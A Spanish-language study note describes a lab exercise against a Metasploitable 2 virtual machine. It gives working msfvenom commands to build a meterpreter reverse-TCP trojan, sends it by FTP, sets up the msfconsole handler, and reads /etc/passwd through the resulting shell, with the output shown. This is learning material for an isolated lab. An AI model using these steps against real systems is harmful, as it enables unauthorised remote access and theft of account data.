 ```yaml
---
tags: [aprendizaje]
---
```


# Planteamiento
> [!EXAMPLE] Sea una máquina víctima
> Se plantea crear un [[APT]] usando [[msfvenom]] que ejecute [[Meterpreter]] sobre ella.
> 
> Este [[APT]] será un archivo ejecutable infectado que creará un [[Reverse Shell]] vía [[TCP]] cuando un administrador del sistema lo ejecute.

## Parámetros
Para este ejemplo, se parte con los siguientes datos.
- Máquina atacante: `192.168.56.1` -> Mi máquina local.
- Máquina víctima: `192.168.56.101` -> [[Máquina Virtual]] con [[Metasploitable 2]].
	-> Credenciales conocidas: `msfadmin:msfadmin` -> usuario y contraseña de `root`.

> [!IMPORTANT] Las máquinas están en la misma red.


# Ejecución
Teniendo en cuenta:
![[msfvenom#^d83e1d]]

## 1 - Crear un [[Troyano]] usando [[msfvenom]]
1. Cargar el [[Payload]] `linux/x86/meterpreter/reverse_tcp`.
	- Ejecuta [[Meterpreter]] sobre una máquina [[Linux]] de [[Arquitectura#32 bits| 32 bits]], haciendo un [[Reverse Shell]] usando el protocolo [[TCP]].
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=5000 -f elf > ejecutable
```
- Crea un archivo llamado "ejecutable" con formato `.elf`.
*-> El [[Puerto]] debe ser superior a 1024, para que no haya problemas.*

2. Asignar permisos de ejecución al archivo ejecutable.
```shell
chmod a+x ejecutable
```
- `a`: grupo de usuarios administradores.
- `+x`: otorgar permiso de ejecución.

## 2 - Enviar el [[Troyano]]
Durante esta fase, el archivo ejecutable creado debe **acabar en la máquina víctima**.

*-> En este caso se está haciendo trampa porque **ya se saben las credenciales de la máquina víctima**: averiguar previamente dichas credenciales sería otro paso a llevar a cabo. Así se verá en [[Ejemplo de ataque completo]].*

1. Enviar el archivo por [[SCP]] o [[FTP]] (en mi caso, [[FTP]] porque [[SCP]] no funciona).
```shell
ftp msfadmin@192.168.56.101
```

## 3 - Escuchar al envío con [[msfconsole]]
1. Usar el manejador del exploit.
```shell
use exploit/multi/handler
```

2. Determinar el [[Payload]].
```shell
set payload linux/x86/meterpreter/reverse_tcp
```
- Se usa el mismo que se usó en el apartado anterior.

4. Determinar la [[IP]] de la máquina atacante.
```shell
set lhost 192.168.56.1
```
- Máquina a la que se debe enviar el [[Reverse Shell]] desde la máquina víctima.

3. Determinar el [[Puerto]] de escucha de la máquina atacante.
```shell
set lport 5000
```
- Puerto de la máquina a la que se debe enviar el [[Reverse Shell]] desde la máquina víctima.

## 4 - Recibir la conexión
Una vez ejecutado el archivo generado en la sección anterior dentro de la máquina víctima, [[msfconsole]] -que estaba a la escucha- recibe la conexión desde ella.

Eso activa [[Meterpreter]] en la máquina atacante (se abre la consola dentro de [[msfconsole]]).
```shell
meterpreter >
```


# Ejemplo de uso de [[Meterpreter]]
Cuando se activa la consola de [[Meterpreter]], ya se tiene acceso a la víctima.

Un comando útil suele ser ver el contenido del fichero `passwd`.
```shell
meterpreter > cat /etc/passwd
```

Se obtienen los usuarios de la máquina víctima, en la máquina del atacante.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
```

#todo revisar y escribir.
-> Mención al [[Exploit]] de [[Golden Ticket]].

> [!TIP] Algunos [[Exploit|exploits]] pueden **ejecutar código directamente en memoria**
> Esto evita que queden rastros en el disco.
> - Funciona bien contra servidores porque se mantienen encendidos.
> - Puede infectarse un archivo de un servicio.

#todo revisar y escribir.
Programa de la Policía: [[Caffein]] (y su contramedida, [[Decaffeine]]).


# Diagrama de la ejecución
Se muestra en **rojo** el paso en el que se ha hecho **trampa** para que la máquina víctima tenga el ejecutable infectado.
```mermaid
sequenceDiagram
	
	%% Participantes
	participant A as ATACANTE
	participant V as VÍCTIMA
	
	%% Conexiones
	note over A: msfvenom
	
	A->>A: Cargar Payload
	A->>A: Crear ejecutable
	
	rect rgb(255, 0, 0, 0.25)
		A-->>V: Ejecutable por FTP
	end
	
	note over A: msfconsole
	
	A->>A: Escuchar conexión TCP
	V->>V: Ejecutar ejecutable
	V->>V: Crear Shell
	V-->>A: Conexión con la Shell
	
	note over A, V: A C C E S O
	
	A->>V: Arrancar Meterpreter
```
